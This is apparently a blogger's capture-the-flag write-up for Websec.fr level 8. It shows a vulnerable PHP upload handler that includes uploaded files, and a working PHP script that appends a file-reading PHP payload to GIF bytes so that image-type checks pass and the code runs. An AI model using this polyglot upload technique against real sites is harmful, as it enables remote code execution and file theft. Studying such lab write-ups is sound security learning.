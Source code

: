 ```yaml
---
title: Websec.fr level 8 - easy
date: Septemeber 11, 2024 11:00:00
author: Elad
categories: [Write-ups]
tags: [Websec.fr]
---
```


# The level
![image](https://github.com/user-attachments/assets/870c29c1-1817-44f5-aceb-eb89f14faebf)


```php
<?php
$uploadDir = '/uploads';
$hashedFileName = sha1($_FILES['fileToUpload']['name']) . '.gif';
$uploadedFile = sprintf('%s/%s', $uploadDir, $hashedFileName);

if (file_exists($uploadedFile)) {
    unlink($uploadedFile);
}

if ($_FILES['fileToUpload']['size'] <= 50000) {
    if (getimagesize($_FILES['fileToUpload']['tmp_name']) !== false) {
        if (exif_imagetype($_FILES['fileToUpload']['tmp_name']) === IMAGETYPE_GIF) {
            if (move_uploaded_file($_FILES['fileToUpload']['tmp_name'], $uploadedFile)) {
                echo '<p class="lead">Dump of <a href="/level08' . htmlspecialchars($uploadedFile, ENT_QUOTES, 'UTF-8') . '">' . htmlspecialchars($_FILES['fileToUpload']['name'], ENT_QUOTES, 'UTF-8') . '</a>:</p>';
                echo '<pre>';
                include_once($uploadedFile);
                echo '</pre>';
                unlink($uploadedFile);
            } else {
                echo '<p class="text-danger">Failed to move uploaded file</p>';
            }
        } else {
            echo '<p class="text-danger">The file is not a GIF</p>';
        }
    } else {
        echo '<p class="text-danger">The file is not a valid image</p>';
    }
} else {
    echo '<p class="text-danger">The file is too big</p>';
}
?>
```

Ok, so we see that we have to upload a GIF file to this link (it has all these checks like exif_imagetype and etc...)

If the file passes the checks, it simply includes it. Great !. We can simply copy an existing GIF for it's magic bytes to surpass the check then append it to print content of the flag right ?

```php
create_new_gif.php
<?php

$gif = "./giphy.gif";
$payload_file = "./payload.gif";
$payload = "<?php var_dump(file_get_contents('flag.txt')); ?>";

// Read GIF contents
$gif_contents = file_get_contents($gif);
if ($gif_contents === false) {
    die("Error reading GIF file.\n");
}

// Output length of GIF contents
echo "Length of GIF contents: " . strlen($gif_contents) . "\n";

// Write GIF contents to payload file
if (file_put_contents($payload_file, $gif_contents) === false) {
    die("Error writing to payload file.\n");
}

// Get image size and type information
$size_info = getimagesize($payload_file);
if ($size_info === false) {
    die("Error getting image size information.\n");
}
echo "Image size info: " . implode(", ", $size_info) . "\n";

// Check if the file is recognized as a GIF
$is_gif = exif_imagetype($payload_file) === IMAGETYPE_GIF;
echo "Is GIF: " . ($is_gif ? "true" : "false") . "\n";

// Append PHP payload to the payload file
if (file_put_contents($payload_file, $payload, FILE_APPEND) === false) {
    die("Error appending PHP payload.\n");
}

// Check image size and type again after appending
$size_info = getimagesize($payload_file);
if ($size_info === false) {
    die("Error getting image size information after appending PHP payload.\n");
}
echo "Image size info after appending: " . implode(", ", $size_info) . "\n";

$is_gif = exif_imagetype($payload_file) === IMAGETYPE_GIF;
echo "Is GIF after appending: " . ($is_gif ? "true" : "false") . "\n";

?>
```

- **Define File Paths and Payload:**
  - Sets paths for the input GIF file and the output payload file.
  - Prepares a PHP payload script to be appended.

- **Read GIF Contents:**
  - Reads the contents of the input GIF file (`giphy.gif`).

- **Output Length of GIF Contents:**
  - Displays the length of the GIF file contents.

- **Write GIF Contents to Payload File:**
  - Copies the GIF contents to the new file (`payload.gif`).

- **Get Image Size and Type Information:**
  - Retrieves and displays the size and type information of the new GIF file.

- **Check if the File is Recognized as a GIF:**
  - Checks and displays if the file is still recognized as a GIF.

- **Append PHP Payload to Payload File:**
  - Appends the PHP script to the end of the new GIF file.

- **Check Image Size and Type Again After Appending:**
  - Retrieves and displays the updated size and type information of the file after appending the PHP script.
  - Rechecks and displays if the file is still recognized as a GIF.

copy a file from the internet and call it giphy.gif.

```bash
touch payload.gif; php create_new_gif.php
```

![image](https://github.com/user-attachments/assets/d2bf15d0-7d30-411a-ae36-f5c6cc974d9a)

upload the created payload.gif to the website

![image](https://github.com/user-attachments/assets/55670a73-8e63-417c-8a1f-bc9f966b2abe)

```
WEBSEC{BypassingImageChecksToRCE}
```

Walla !!! Thanks for reading !!!!